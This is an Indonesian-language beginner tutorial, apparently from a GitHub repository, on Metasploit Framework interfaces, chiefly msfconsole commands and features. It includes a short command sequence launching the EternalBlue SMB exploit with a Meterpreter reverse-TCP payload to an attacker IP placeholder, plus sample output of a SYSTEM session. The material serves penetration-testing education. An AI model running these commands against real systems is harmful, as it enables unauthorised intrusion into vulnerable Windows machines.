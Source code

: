 # Antarmuka Metasploit Framework

`Metasploit Framework` memiliki beberapa antarmuka yang bisa digunakan oleh user, mulai dari CLI (Command Line Interface) hingga GUI (Graphical User Interface). Namun, yang paling sering digunakan dan paling powerful adalah CLI melalui `msfconsole`.

Jenis-jenis Antarmuka Metasploit:

| Antarmuka | Deskripsi |
|:--:|:--:|
| `msfconsole` | Antarmuka utama berbasis CLI, digunakan untuk menjalankan `modul`, `payload`, dan `eksploitasi`. |
| `msfvenom` | CLI untuk membuat payload secara manual. |
| [Armitage](https://www.offsec.com/metasploit-unleashed/armitage/) (GUI) | Antarmuka grafis berbasis Java (sudah jarang digunakan). |
| [Metasploit Pro](https://docs.rapid7.com/metasploit/) (GUI berbayar) | Antarmuka komersial dengan fitur profesional seperti laporan dan automasi. |

## A. MSFconsole – Antarmuka Utama Metasploit

1. Menjalankan MSFconsole:

```
msfconsole
```

Saat dijalankan, akan muncul banner:

```
=[ metasploit v6.4.56-dev                          ]
+ -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
+ -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
```

2. Struktur Dasar Perintah di MSFconsole

| Perintah | Fungsi |
|:--:|:--:|
| `search <NAMA>` | Mencari `exploit`, `payload`, `dll`. |
| `use <MODUL>` | Memilih modul yang akan digunakan. |
| `info` | Menampilkan detail tentang modul yang sedang digunakan. |
| `show options` | Melihat konfigurasi parameter modul. |
| `set <PARAMETER> <NILAI>` | Mengatur nilai parameter modul. |
| `exploit` atau `run` | Menjalankan exploit atau modul. |

3. Contoh Penggunaan MSFconsole:

```
search windows/smb
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS <IP_TARGET>
set LHOST <IP_ATTACKER>
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

## B. Fitur Tambahan di MSFconsole

| Fitur | Penjelasan |
|:--:|:--:|
| Tab Completion | Tekan `Tab` untuk melengkapi modul atau perintah otomatis. |
| Command History | Gunakan panah atas `(↑)` untuk melihat perintah sebelumnya. |
| Background Sessions | Gunakan background untuk menyimpan sesi eksploitasi ke background. |
| Session Interaction | Gunakan `sessions -i <ID>` untuk membuka kembali sesi eksploitasi. |

## C. Contoh Output dari MSFconsole:

```
msf6 > sessions

Active sessions
===============

Id  Name  Type                   Information               Connection
--  ----  ----                   -----------               ----------
1         meterpreter x86/win32  NT AUTHORITY\SYSTEM       192.168.1.10 -> 192.168.1.5
```

## D. Kesimpulan

`msfconsole` adalah pusat kendali utama dalam Metasploit. Dengan memahami perintah-perintah dasar dan navigasi antarmukanya, kamu bisa mengelola modul eksploitasi, payload, dan sesi secara efisien.

> Tips: Latih penggunaan msfconsole di lab lokal atau VM agar terbiasa sebelum digunakan dalam skenario nyata.
